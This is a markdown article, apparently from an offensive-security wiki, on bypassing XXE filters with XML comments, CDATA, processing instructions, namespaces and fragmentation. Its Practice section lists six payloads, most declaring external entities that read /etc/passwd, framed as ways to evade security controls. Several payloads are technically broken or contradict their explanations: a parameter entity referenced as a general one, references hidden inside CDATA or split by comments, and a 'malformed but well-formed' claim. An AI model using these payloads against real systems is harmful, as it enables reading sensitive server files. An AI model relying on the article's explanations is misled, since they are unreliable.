 ```yaml
---
title: 'XML Structure Bypasses: Evasion Techniques for XXE'
description: Learn advanced XML structure techniques to bypass security controls,
  evading XXE payload detection with comprehensive examples and guidance.
keywords:
- XML Structure Bypasses
- XXE vulnerabilities
- XML comments
- CDATA section
- namespace manipulation
- processing instructions
- XML fragmentation
---
```


# XML Structure Bypasses

## Context

This article explores advanced techniques to bypass security controls and exploit vulnerabilities within XML parsers. By leveraging structure-based techniques, attackers can evade security mechanisms and deliver malicious XXE payloads. A thorough understanding of XML structure, XML parsing mechanisms, and XML entity concepts is assumed, as well as familiarity with the basics of XML External Entity (XXE) exploitation.

## Theory

### Structural Weaknesses in XML Parsing

XML structure bypasses take advantage of the flexibility inherent in XML parsing to evade security controls or filters. These techniques exploit the fact that many filters only check for known patterns and may miss obfuscated or fragmented XML structures. By altering the XML structure, attackers can bypass naive validation processes, enabling the delivery of XXE payloads without detection.

### Bypass Techniques Using XML Structure

Attackers use various XML syntax manipulations—including comments, CDATA sections, namespaces, and processing instructions—to evade detection mechanisms. This may involve injecting comments or CDATA sections to split malicious payloads and confuse pattern-based filters. Additionally, processing instructions or namespace tricks can hide or reformat entities to bypass certain controls.

### Examples of Structure-Based Evasion

- **XML Comments**: Using `<!-- -->` to break up keywords or entity declarations, thereby evading detection.
- **CDATA Sections**: Wrapping payloads in `<![CDATA[]]>` to shield special characters from filters.
- **Processing Instructions**: Inserting `<?xml ...?>` instructions disrupts parsing or filter logic.
- **Namespace Manipulation**: Redefining or obfuscating namespaces helps evade entity detection by filters.
- **Fragmented XML**: Splitting payloads across multiple tags or sections circumvents regex-based filters.
- **Well-formedness/Validity Bypass**: Exploiting parser leniency for accepting malformed but well-formed XML.

## Practice

### XML Comment Injection Bypass

- **Payload**:
  ```xml
  <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> ]><!--XXE--><foo>&xxe;</foo>
  ```
- **Explanation**: This technique involves injecting a comment to split or obfuscate the entity declaration, bypassing filters that look for contiguous entity patterns.

### CDATA Section Bypass

- **Payload**:
  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><foo><![CDATA[&xxe;]]></foo>
  ```
- **Explanation**: Encapsulate the entity reference in a CDATA section to evade character-based filters blocking direct entity usage.

### Processing Instruction Bypass

- **Payload**:
  ```xml
  <?xml version="1.0"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><?proc instr?><foo>&xxe;</foo>
  ```
- **Explanation**: Inserting processing instructions aids in disrupting naive parsing or filter logic, confusing filters that do not expect such instructions.

### Namespace Manipulation Bypass

- **Payload**:
  ```xml
  <foo xmlns:evil="http://malicious/"><evil:bar>&xxe;</evil:bar></foo>
  ```
- **Explanation**: By obfuscating the entity reference with a custom namespace, this approach bypasses filters that do not parse or validate namespaces.

### XML Fragmentation Bypass

- **Payload**:
  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><foo>&x<!-- -->xe;</foo>
  ```
- **Explanation**: Splitting an entity reference with a comment can evade pattern-matching filters expecting contiguous entity references.

### Well-Formedness/Validity Constraint Bypass

- **Payload**:
  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><foo>&xxe</foo>
  ```
- **Explanation**: Introducing minor malformations, such as omitting the semicolon of an entity reference, exploits parser-specific quirks to bypass strict validation.

## Tools

- **Burp Suite**
- **curl**
- **Postman**
